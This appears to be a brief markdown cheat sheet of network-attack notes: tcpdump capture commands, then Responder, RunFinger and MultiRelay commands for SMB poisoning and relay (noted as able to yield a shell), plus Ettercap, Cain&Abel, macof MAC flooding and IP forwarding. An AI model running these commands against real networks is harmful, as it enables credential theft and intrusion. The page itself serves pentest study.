 #### Tcpdump

syntax: `tcpdump [options] [filter expression]`

Example, `sudo tcpdump -i eth0`
`sudo tcpdump -i eth0 -xxAXXSs 0 dst [target_ip]`
![new.png](Pictures/new5.png)

`sudo tcpdump -i eth0 -vvvASs 0 dst [destination_ip]` for simpler output and v is verbosity.

For windows: [windump](https://www.winpcap.org/windump/)

***
***

## MitM Attacks
`python3 RunFinger.py -i [target_ip]` to see whether SMB sighning is disabled.
`python3 Responder.py -I eth0 --lm`
`python MultiRelay.py -t [target_ip] -u ALL` can give us a shell but not working now.

***
***

## Attacking Tools

#### Ettercap
`sudo ettercap G`

#### Cain&Abel
[cain&abel](https://web.archive.org/web/20190101122212/http:/www.oxid.it/cain.html)

#### Macof
syntax: `macof [-s src] [-d dst] [-e tha] [-x sport] [-y dport] [-i interface] [-n times]`
`echo 1 > /proc/sys/net/ipv4/ip_forward`
